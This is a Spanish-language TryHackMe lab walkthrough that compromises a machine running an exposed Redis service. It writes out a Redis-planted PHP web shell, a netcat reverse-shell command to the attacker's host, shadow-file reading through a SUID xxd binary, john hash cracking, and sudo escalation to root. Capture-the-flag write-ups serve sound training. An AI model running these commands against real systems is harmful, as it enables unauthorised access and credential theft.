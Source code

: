 Bienvenidos a otra sala de tryhackme, en esta ocasion utilizaremos nuestra herramienta bien conocida para escanear puertos abiertos, abusamos de un servicio del sistema para generar nuestra reverse shell en nuestra maquina atacante. Luego, escalaremos privilegios listando los permisos elevados del sistema, crackearemos las credenciales del usuario y escalar a usuario root de una manera muy simple.


# Recon
Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.23s latency).
Scanned at 2023-07-03 04:23:03 EDT for 24s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
6379/tcp open  redis   syn-ack ttl 63 Redis key-value store 6.0.7

Read data files from: /usr/bin/../share/nmap

```

Nuestro escaneo de nmap nos muestra 2 puertos abiertos. Al navegar al servidor web, vemos que pertenece al servicio apache, podriamos realizar una enumeracion con gobuster para descubrir directorios ocultos pero observamos el otro puerto que pertenece al servicio redis. Redis es un sistema de almacenaciento de datos de memoria.

Podemos consultar https://book.hacktricks.xyz/ para saber como explotar este servicio.

# Intrusion

Si miramos el manual propocionado anteriormente, nos dira diferentes formas sobre como explotar distintos servicios. En nuestro caso, nos interesa el metodo **PHP WEBSHELL**
Si no tenes instalado las herramientas redis, podes instalarlas de la siguiente manera : `sudo apt-get install redis-tools`.

Primero, nos aseguraremos en agregar una instruccion, en codigo php, que nos refleje la configuracion y version php del sistema. Tenemos que saber la ruta del servidor web, por lo general, en una distribucion ubuntu se almancenan en /var/www/html.

```bash
config set dir /var/www/html # Seleccionamos y configuramos directorio
config set dbfilename info.php # Creamos archivo info.php
set test "<?php phpinfo(); ?>" # Instruccion php para saber confguracion del sys
save

Navegamos a http://IPTARGET/info.php
```

Como vemos que funciona, podemos realizar otra configuracion que nos de una reverse shell en nuestra maquina atacante.

```bash
config set dir /var/www/html
config set dbfilename shell.php
set test "<?php system($_GET['cmd']); ?>"
save

# En nuestra maquina atacante nos ponemos en escucha

nc -nvlp LPORT

# Navegamos al servidor web donde configuramos nuestra shell

http://IPTARGET/shell.php?cmd=nc -e /bin/bash LHOST LPORT

# Upgradeamos nuestra shell

script /dev/null -c bash
  CTRL+Z
  stty raw -echo;fg
  export TERM=xterm
```


# Priv. Escalation

Listaremos permisos elevados dentro del sistema 

```bash
find / -type f -perm -4000 -ls 2>/dev/null
```

Podemos abusarnos del permiso **xxd**, nos dirigimos a la pagina de https://gtfobins.github.io/gtfobins/xxd/ que nos indicara como poder abusarnos de esta vulnerabilidad. Basicamente,tenemos que indicarle el archivo que querramos leer y ejecutamos un comando que nos dara el contenido de dicho archivo. 

```bash
LFILE=file_to_read
xxd "$LFILE" | xxd -r
```

Usaremos las rutas de /etc/passwd y /etc/shadow, que por suerte tenemos los privilegios adecuados para leer su contenido. Luego utilizamos **john** con su opcion de unshadow que nos permite poder crackear sus credenciales.

```bash
LFILE=/etc/passwd
xxd "$LFILE" | xxd -r

LFIE=/etc/shadow
xxd "$LFILE" | xxd -r

# Copiaremos y nos pasaremos el contenido a nuestra maquina atacante con los nombres passwd.txt shadow.txt

Utilizamos john para crackear la credencial de vianka

unshadow passwd.txt shadow.txt > hash.txt
john --wordlist=Path/Wordlist hash.txt

```

Ya tenemos nuestra password y escalaremos ahora a usuario raiz root.

```bash
su vianka # cambiamos a usuario vianka
sudo -l # listamos permisos de superusuario
sudo su # cambiamos a usuario root.
```


